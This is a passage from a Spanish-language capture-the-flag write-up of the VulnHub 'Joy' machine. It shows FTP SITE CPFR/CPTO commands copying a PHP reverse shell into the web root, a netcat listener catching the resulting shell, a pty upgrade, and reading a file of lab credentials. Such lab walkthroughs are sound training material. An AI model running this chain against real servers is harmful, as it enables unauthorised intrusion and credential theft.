 ```bash
 NLST    STAT    SITE    MLSD    MLST
214 Direct comments to root@JOY
site cpfr /home/ftp/upload/php-reverse-shell.php
350 File or directory exists, ready for destination name
site cpto /var/www/tryingharderisjoy/php-reverse-shell.php
250 Copy successful
```

![webrs](/assets/img/commons/vulnhub/joy/webrs.png){: .center-image }

Nos ponemos en escucha y lanzamos la conexión.

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.24] 45288
Linux JOY 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
 02:00:13 up  4:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),123(ossec)
/bin/sh: 0: can't access tty; job control turned off
$ tty
not a tty
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@JOY:/$
```

Nos dirigimos al directorio de `ossec` para validar archivos y encontramos la `password`{: .filepath} del usuario `patrick`.

```bash
www-data@JOY:/var/www/tryingharderisjoy/ossec$ ls
ls
CONTRIB  README.search     img        lib                  setup.sh
LICENSE  css               index.php  ossec_conf.php       site
README   htaccess_def.txt  js         patricksecretsofjoy  tmp
www-data@JOY:/var/www/tryingharderisjoy/ossec$ cat patricksecretsofjoy
cat patricksecretsofjoy
credentials for JOY:
patrick:apollo098765
root:howtheheckdoiknowwhattherootpasswordis

how would these hack3rs ever find such a page?
```
